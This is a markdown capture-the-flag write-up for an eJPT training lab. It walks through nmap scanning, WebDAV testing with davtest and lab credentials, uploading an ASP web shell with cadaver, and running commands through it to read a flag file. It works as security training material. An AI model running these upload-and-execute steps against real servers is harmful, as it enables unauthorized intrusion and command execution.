









# Vulnerability Assessment - WebDAV Exploitation Walkthrough

This document outlines a step-by-step walkthrough for exploiting a vulnerable WebDAV service to retrieve a flag during the **eJPT Vulnerability Assessment** lab.

> **Lab URL:**
> [https://my.ine.com/CyberSecurity/courses/bf9be146-3a69-4b0e-bade-477da0002943/assessment-methodologies-vulnerability-assessment/lab/567b1f4c-482b-30b0-9353-f9ebf8a78688](https://my.ine.com/CyberSecurity/courses/bf9be146-3a69-4b0e-bade-477da0002943/assessment-methodologies-vulnerability-assessment/lab/567b1f4c-482b-30b0-9353-f9ebf8a78688)

---

## 📁 Challenge Details

* **Category:** Vulnerability Assessment
* **Target:** `demo.ine.local`
* **Goal:** Exploit WebDAV to retrieve the final flag

---

## 🔎 Step 1: Initial Port Scan

We start with a basic port scan using Nmap:

```bash
nmap demo.ine.local
```


Identified services:

* HTTP on port 80
* SMB on ports 139 and 445
* MySQL on 3306
* RDP on 3389

---

## 🔍 Step 2: Web Enumeration with Nmap Scripts

We enumerate the HTTP service with the `http-enum` script:

```bash
nmap --script http-enum -sV -p 80 demo.ine.local
```



Revealed the presence of `/webdav/` directory, which is potentially vulnerable.

---

## ⚙️ Step 3: Check WebDAV with `davtest`

First, test if the DAV connection is allowed:

```bash
davtest --url http://demo.ine.local/webdav
```



It responded as **open but unauthorized**.

---

## 🔐 Step 4: Authenticated WebDAV Test

Now try authenticated testing using provided credentials:

```bash
davtest --auth bob:password_123321 --url http://demo.ine.local/webdav
```



This succeeded in creating a directory and uploading various file types. The server allowed execution of `.txt`, `.html`, and `.asp`.

---

## 📊 Step 5: Review Summary Output

We review which files executed successfully:



`.txt`, `.html`, and `.asp` file types were confirmed executable.

---

## 🔧 Step 6: Upload Web Shell with Cadaver

Now we use `cadaver` to interactively upload a reverse shell:

```bash
cadaver http://demo.ine.local/webdav
```



Uploaded: `webshell.asp`

---

## 🔎 Step 7: Authenticate in Browser

Visit the WebDAV directory in Firefox:



Login with username: `bob`, password: `password_123321`

---

## 🔢 Step 8: Command Execution via Web Shell

We access the shell and execute:

```bash
http://demo.ine.local/webdav/webshell.asp?cmd=whoami
```



Successfully ran remote commands as `iis apppool\\defaultapppool`

---

## 📚 Step 9: Locate the Flag

Now we browse the system to locate the flag file:

```bash
cmd=dir C:\
```



Found file: `flag.txt`

Retrieve the flag with:

```bash
cmd=type C:\flag.txt
```



**FLAG:** `9cc175b9c0f1b6a831c399e269772661`

---

## 🕊️ Summary

This challenge involved:

1. Scanning for open services
2. Discovering and verifying WebDAV access
3. Exploiting file upload and execution via DAV
4. Uploading and executing a web shell
5. Reading the flag from the system drive

---

**Disclaimer:** This test was conducted in a controlled lab environment. Never use these techniques on systems you do not own or have explicit permission to test.

---

**🔗 [Back to eJPT CTF Challenges Repo](https://github.com/sara5521/eJPT-CTF-Challenges)**
